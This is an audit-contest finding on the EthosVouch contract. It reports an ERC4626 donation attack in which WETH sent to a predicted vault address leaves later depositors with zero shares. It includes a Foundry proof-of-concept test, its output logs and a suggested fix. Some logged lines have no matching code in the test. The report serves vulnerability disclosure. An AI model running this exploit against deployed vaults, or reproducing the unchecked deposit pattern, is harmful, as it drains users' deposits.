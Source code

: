 Mythical Mauve Monkey

High

# ERC4626 Vault Donation Attack Leading to User Fund Loss

### Summary

The EthosVouch function uses an ERC4626 vault to manage user deposits. An attacker can manipulate share values by directly transferring WETH to the vault before legitimate users deposit, resulting in unfairly low/zero share allocation for subsequent users.

### Root Cause

In vouch the share amount of user get after deposit is not checked.
<https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosVouch.sol#L329>

```solidity
IEthosVaultETHUnderlying(vaultAddress).depositETH{ value: msg.value }(msg.sender); //@audit user get share amount is not checked
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1.predict the vault address 
2.deposit some WETH to pool


### Impact

subsequent users lost of deposit funds

### PoC

test:
```solidity
    function vouchByAddress(address sender,uint256 payamount,address subjectAddress,string memory comment,string memory metadata) public {
        vm.deal(sender,payamount);
        vm.prank(sender);
        (bool success, bytes memory data) = address(vouch).call{value: payamount}(
            abi.encodeWithSignature("vouchByAddress(address,string,string)", subjectAddress, comment, metadata));
        assert(success);
        calFee+=payamount;
    }

    function unvouch(address sender) public {
        (,,,uint256 profileId) = profile.profileStatusByAddress(sender);
        uint256[] memory countIds = vouch.getVouchCountIds(profileId);
        uint256 count;
        for(uint256 i;i<countIds.length;i++){
            if(count>0) continue;
            if(countIds[i]!=0) count = countIds[i];
        }
        if(countIds.length>0){
            uint256 balance = sender.balance;

            //cal redeem amount
            vm.prank(sender);
            vouch.unvouch(count);
            vm.prank(sender);
            vouch.markUnhealthy(count);
            assert(vouch.getBalanceByVouchId(count) == 0);
        }
    }

    function testUserVouchAndUnVouch() public {
        address predictVaultAddrs = address(0x61a0009C8E5f6e87CAf2D3B57081c27882a0187e);
        vm.deal(address(this),1e15);
        weth.deposit{value:1e15}();
        weth.transfer(predictVaultAddrs, 1e15);

        //custom unit function for vouch
        vouchByAddress(address(0x10000),1e15,address(0x20000),"","");
        vouchByAddress(address(0x30000),1e15,address(0x20000),"","");
        vouchByAddress(address(0x40000),1e15,address(0x20000),"","");

        unvouch(address(0x10000));
        console2.log("1 remaining", address(0x10000).balance);
        unvouch(address(0x30000));
        console2.log("2 remaining", address(0x30000).balance);
        unvouch(address(0x40000));
        console2.log("3 remaining", address(0x40000).balance);
        console2.log("vault remaining", weth.balanceOf(predictVaultAddrs));
    }
```
shell:
```shell
ftv testUserVouchAndUnVouch
```

out:
```shell
Logs:
  user mint shares: 0
  user mint shares: 0
  user mint shares: 0
  1 remaining 0
  2 remaining 0
  3 remaining 0
  vault remaining 3940000000000000
```

### Mitigation

Implement minimum shares received check